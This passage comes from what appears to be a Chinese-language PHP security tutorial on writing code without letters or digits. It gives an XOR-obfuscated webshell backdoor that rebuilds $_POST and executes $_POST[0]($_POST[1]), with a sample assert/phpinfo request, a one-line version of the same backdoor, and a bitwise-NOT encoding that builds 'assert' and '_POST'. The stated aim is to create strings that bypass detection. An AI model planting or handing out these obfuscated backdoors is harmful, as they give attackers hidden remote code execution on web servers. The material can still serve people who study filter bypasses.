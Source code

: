 有了这个例子，我们就可以使用这种后门创建一些可以绕过检测的并且对我们有用的字符串，如_POST","system","call_user_func_array"，或者是任何我们需要的东西。

```php
<?php

@$_++;                      // $_ = 1
$__=("#"^"|");              // $__ = _
$__.=("."^"~");             // _P
$__.=("/"^"`");             // _PO
$__.=("|"^"/");             // _POS
$__.=("{"^"/");             // _POST 
${$__}[!$_](${$__}[$_]);    // $_POST[0]($_POST[1]);

?>

//.=是字符串的连接

//POST /?0=assert
//1=echo phpinfo();
```

甚至可以将上面的代码合并为一行，从而使程序的可读性更差
```php
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

---

## 取反绕过

取反的符号是~，也是一种运算符。在数值的二进制表示方式上，将0变为1，将1变为0。

直接看构造 phpinfo()
```php
(~%8F%97%8F%96%91%99%90)();
```

**构造 assert 字符**
```
%9E^%FF=>a
%8C^%FF=>s
%9A^%FF=>e
%8D^%FF=>r
%8B^%FF=>t
%A0^%FF=>_
%AF^%FF=>P
%B0^%FF=>O
%AC^%FF=>S
%AB^%FF=>T

$_="%9E%8C%8C%9A%8D%8B"^"%FF%FF%FF%FF%FF%FF";
$__="%A0%AF%B0%AC%AB"^"%FF%FF%FF%FF%FF";
$___=$$__;
$_($___[_]);
```

---
